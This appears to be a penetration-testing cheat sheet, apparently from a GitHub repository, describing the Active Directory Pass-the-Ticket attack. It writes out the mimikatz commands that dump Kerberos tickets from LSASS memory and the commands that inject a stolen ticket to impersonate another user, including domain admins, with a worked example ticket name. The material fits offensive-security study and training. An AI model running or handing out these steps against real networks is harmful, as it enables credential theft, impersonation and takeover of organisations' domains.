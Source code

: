 Requirements:
Admin on any AD machine.

##### Overview
Pass the Ticket works by dumping any TGT and TGT present from the machine's LSASS (Local Security Authority Subsystem Service) memory. This is a system that stores AD credentials. 
Dumping the TGT with mimikatz will export a .kirbi ticket, which can be used to gain Domain Admin rights if there is a Domain Admin ticket in the LSASS memory. 
We can use this to impersonate the DA or any other users, and access any resources they have accessed.


##### Mimikatz exploitation
Gaining tickets:
```
./mimikatz.exe // run mimikatz
privilege::debug // If it does not return "[output '20' OK]", It needs to be ran with Admin privileges.
sekurlsa::tickets /export  // Dumps all the .kirbi tickets in LSASS memory to the current directory.
```

Note: it's recommended to load in TGTs of the target user instead of TGSs.

Passing obtained tickets:
```
kerberos::ptt TICKET // Load and impersonate the user from TICKET
klist // Get information on loaded ticket
```
Example:
```
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
```

Now open a CMD/Powershell shell and we can impersonate the ticket.